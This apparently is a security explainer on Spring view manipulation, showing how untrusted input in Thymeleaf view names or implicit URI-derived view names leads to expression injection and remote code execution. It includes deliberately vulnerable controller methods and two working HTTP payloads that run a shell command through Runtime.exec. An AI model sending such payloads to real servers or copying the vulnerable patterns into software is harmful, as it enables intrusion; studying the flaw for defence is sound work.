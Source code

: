 # Views overview

Consider a simple Spring application that uses Thymeleaf as its templating engine:

```java
@Controller
public class HelloController {

    @GetMapping("/")
    public String index(Model model) {
        model.addAttribute("message", "happy birthday");
        return "welcome";
    }
}
```

The `index` method will be called for every `GET` request for the root url `/`. It has no parameters and returns the static string `welcome`. Spring interprets `welcome` as the name of the `View` and tries to find the `resources/templates/welcome.html` file located in the application resources. If Spring finds it, renders a view from the template file and returns to the user.

# Untrusted Thymeleaf view name

If Thymeleaf view engine is used (the most popular for Spring), the template might look like this one:

```html
<!DOCTYPE HTML>
<html lang="en" xmlns:th="http://www.thymeleaf.org">
<div th:fragment="header">
    <h3>Spring Boot Web Thymeleaf Example</h3>
</div>
<div th:fragment="main">
    <span th:text="'Hello, ' + ${message}"></span>
</div>
</html>
```

Thymeleaf engine supports [file layouts](https://www.thymeleaf.org/doc/articles/layouts.html), that allows you to specify a fragment in the template by using `<div th:fragment="main">` and then request only this fragment from the view:

```java
@GetMapping("/main")
public String fragment() {
    return "welcome :: main";
}
```

Thymeleaf is intelligent enough to return only the main `div` from the `welcome` view, but not the whole document.

Before loading the template from the filesystem, [Spring ThymeleafView](https://github.com/thymeleaf/thymeleaf-spring/blob/74c4203bd5a2935ef5e571791c7f286e628b6c31/thymeleaf-spring3/src/main/java/org/thymeleaf/spring3/view/ThymeleafView.java) class parses the template name as an expression:

```java
try {
   // By parsing it as a standard expression, we might profit from the expression cache
   fragmentExpression = (FragmentExpression) parser.parseExpression(context, "~{" + viewTemplateName + "}");
}
```

As a result, if template name or fragment is concatenated with untrusted data, it can lead to expression language injection and hence RCE.

For instance, the following methods are vulnerable to expression language injection:

```java
@GetMapping("/path")
public String path(@RequestParam String lang) {
    // potential path traversal, but limited to the 'templates' folder
    return "user/" + lang + "/welcome";
}

@GetMapping("/fragment")
public String fragment(@RequestParam String section) {
    return "welcome :: " + section;
}
```

The following request creates the `executed` file on the server:

```http
GET /path?lang=__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("touch executed").getInputStream()).next()}__::.x HTTP/1.1
Host: vulnerable-website.com
```

![](img/path-eli-exploit.png)

This exploit uses [expression preprocessing](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/). In order for the expression to be executed by the Thymeleaf, no matter what prefixes or suffixes are, it is necessary to surround it with `__${` and `}__::.x`.

# Untrusted implicit view name

Controllers do not always return strings that explicitly tell Spring what view name to use. As described in the [documentation](https://docs.spring.io/spring-framework/docs/current/reference/html/web.html#mvc-ann-return-types), for some return types such as `void`, `java.util.Map` or `org.springframework.ui.Model`, the view name is implicitly determined through a `RequestToViewNameTranslator`.

This means that at first glance such a controller may seem completely innocent, it does almost nothing, but since Spring does not know which view name to use, it **takes it from the request URI**.

```java
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
}
```

Specifically, `DefaultRequestToViewNameTranslator` does the following:

```java
/**
 * Translates the request URI of the incoming {@link HttpServletRequest}
 * into the view name based on the configured parameters.
 * @see org.springframework.web.util.UrlPathHelper#getLookupPathForRequest
 * @see #transformPath
 */
@Override
public String getViewName(HttpServletRequest request) {
    String lookupPath = this.urlPathHelper.getLookupPathForRequest(request, HandlerMapping.LOOKUP_PATH);
    return (this.prefix + transformPath(lookupPath) + this.suffix);
}
```

So, it becomes vulnerable because the user controlled data (URI) comes in directly to view name and is resolved as an expression:

```http
GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x HTTP/1.1
Host: vulnerable-website.com
```

# References

- [Spring View Manipulation Vulnerability](https://github.com/veracode-research/spring-view-manipulation/)